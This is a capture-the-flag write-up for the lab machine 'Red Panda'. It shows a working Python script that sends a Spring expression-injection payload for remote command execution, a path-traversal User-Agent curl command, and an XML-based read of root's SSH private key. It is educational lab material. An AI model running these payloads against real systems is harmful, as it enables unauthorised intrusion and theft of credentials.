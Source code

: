 ```yaml
---
title: Red Panda (Easy)
author: Carlos
date: 2023-02-10
categories: [Writeups, writeups-easy]
tags: [Writeups, writeups-easy]
---
```

<div align="center"><img src= "/pandaicon.png/"></div> 

<div></div>
<p> </p>
We start scanning ports with nmap

<img src= "/writeimgs/redpanda/red1.png">


Once the port scan is done, we observe that on port 8080, they have a website, we enter there and find a nice search engine for pandas:

<img src= "/writeimgs/redpanda/red2.png/">

If we use the whatweb command, we can observe the technology that the web has:

<img src= "/writeimgs/redpanda/red3.png/">

Knowing this we can use an example of <A HREF="https://github.com/swisskyrepo/PayloadsAllTheThings"> PayloadsAllTheThings </A> but it blocks the $

<img src= "/writeimgs/redpanda/red4.png/">

However, we can use * which works in the same way.

<img src= "/writeimgs/redpanda/red5.png/">

To perform this process in an automatic and simple way, we can use the following script:

```ruby
#!/usr/bin/python3
import requests
from cmd import Cmd
from bs4 import BeautifulSoup

class RCE(Cmd):
    prompt = "\033[1;31m$\033[1;37m "
    def decimal(self, args):
        comando = args
        decimales = []

        for i in comando:
            decimales.append(str(ord(i)))
        payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)" % decimales[0]

        for i in decimales[1:]:
            payload += ".concat(T(java.lang.Character).toString({}))".format(i)

        payload += ").getInputStream())}"
        data = { "name": payload }
        requer = requests.post("http://10.10.11.170:8080/search", data=data)
        parser = BeautifulSoup(requer.content, 'html.parser')
        grepcm = parser.find_all("h2")[0].get_text()
        result = grepcm.replace('You searched for:','').strip()
        print(result)

    def default(self, args):
        try:
            self.decimal(args)
        except:
            print("%s: command not found" % (args))

RCE().cmdloop()
```

We use the above mentioned script and get the user flag!

<img src= "/writeimgs/redpanda/red6.png/">
<p>
<img src= "/writeimgs/redpanda/red7.png/">
</p>
After searching through directories for a while we found credentials in MainController.java.

<img src= "/writeimgs/redpanda/red8.png/">

We can use these credentials to connect via ssh:

<img src= "/writeimgs/redpanda/red9.png/">

We will try to use the pspy to see what is running behind, for that we download it and upload it with:

<b> <i>scp pspy64 woodenk@10.10.11.170:/home/woodenk</i></b>

<img src= "/writeimgs/redpanda/red10.png/">

Once pspy is uploaded, we give it permissions and run it:

<img src= "/writeimgs/redpanda/red11.png/">

If we look with pspy at the system tasks, we see that root runs a script like woodenk.

<img src= "/writeimgs/redpanda/red12.png/">

This may be a clue to be able to scale, because why, would you delete files with that extension? Reviewing again the file where we found credentials we see how it exports the xml.

<img src= "/writeimgs/redpanda/red13.png/">

Also in another App.java file we can see how it handles the metadata, now it starts to make sense that it will delete files with those extensions, but also in the file it shows us how it handles the User-Agent.

Looking at this configuration we can inject in the "Artist" field, a path where the xml will be, this in any image that later we will upload to the machine.

<img src= "/writeimgs/redpanda/red14.png/">

Next we will create in the home an xml file that points to the root id_rsa, this with the name defined in the image plus _creds.xml.

<img src= "/writeimgs/redpanda/red15.png/">

Now we have to make a curl request with the format we saw in the file as User-Agent.

<p> curl http://10.10.11.170:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/gato.jpg" </p>

<img src= "/writeimgs/redpanda/red16.png/">

Finally we will export the xml from /stats to take our file.

<img src= "/writeimgs/redpanda/red17.png/">
<p> </p>
<img src= "/writeimgs/redpanda/red18.png/">

After a few seconds if we check the xml it will have the root id_rsa.

<img src= "/writeimgs/redpanda/red19.png/">

Now with this id_rsa, we can finally connect via ssh as root and get the much desired flag!

<img src= "/writeimgs/redpanda/red20.png/">
